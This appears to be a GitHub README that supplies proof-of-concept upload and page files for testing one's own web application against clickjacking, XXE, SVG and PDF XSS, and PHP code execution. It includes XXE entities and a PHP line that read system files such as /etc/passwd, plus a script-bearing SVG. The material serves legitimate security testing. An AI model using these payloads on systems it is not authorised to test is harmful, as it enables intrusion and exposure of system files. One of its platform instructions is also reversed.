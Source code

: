 We will not be hosting files because most people cannot download vulnerable files off github from company networks.
Please understand how these files work before utilizing them.


### Clickjacking
Put the link to your site into the iframe section at the bottom of each file, then save as an html file. Log in to your application, then double click on the following html file so that it opens in the same browser. If you can see your website in the iframe, this proves your application is vulnerable to clickjacking.

The following files come from PortSwigger: https://portswigger.net/web-security/clickjacking

**Basic: test1.html**
```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://www.yourSiteHere.com/dashboard"></iframe>
```

**Frame busting: test2.html**
```
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="https://www.yourSiteHere.com/dashboard"></iframe>
```



Before testing the files below, try uploading calc.exe from a Windows computer. If it successfully uploads, start the remediation procedures. If calc.exe does not upload, or if you want to test further, attempt to upload the files below.

### XXE
**XXE File: Test.xml**
Please note that the file called below should be replaced with a valid Linux file if the Web Server is Linux based.
```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ELEMENT test ANY >
<!ENTITY test SYSTEM "file:///c:/Windows/system.ini" >]><test>&test;</test>
```

**SVG File: test.svg**
https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
### XSS
**SVG file: testabc.svg**
https://github.com/makeplane/plane/security/advisories/GHSA-rcg8-g69v-x23j
```
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400" viewBox="0 0 124 124" fill="none">
<rect width="124" height="124" rx="24" fill="#000000"/>
   <script type="text/javascript">  
      alert(0x539);
   </script>
</svg>
```

**PDF File: XSSinPDF.pdf**
https://portswigger.net/research/portable-data-exfiltration

https://owasp.org/www-chapter-belgium/assets/2007/2007-06-22/OWASP_BeLux_2007-06-22_Protecting_Web_Applications_from_Universal_PDF_XSS.pdf

Known benign XSSinPDF to download: https://github.com/ynsmroztas/pdfsvgxsspayload/blob/main/poc.pdf

### Remote Code Execution
**PHP File Upload: file1.php**
Please note that the file called below should be replaced with a valid Windows file if the Web Server is Linux based.

```
<?php echo file_get_contents('/etc/passwd'); ?>
```

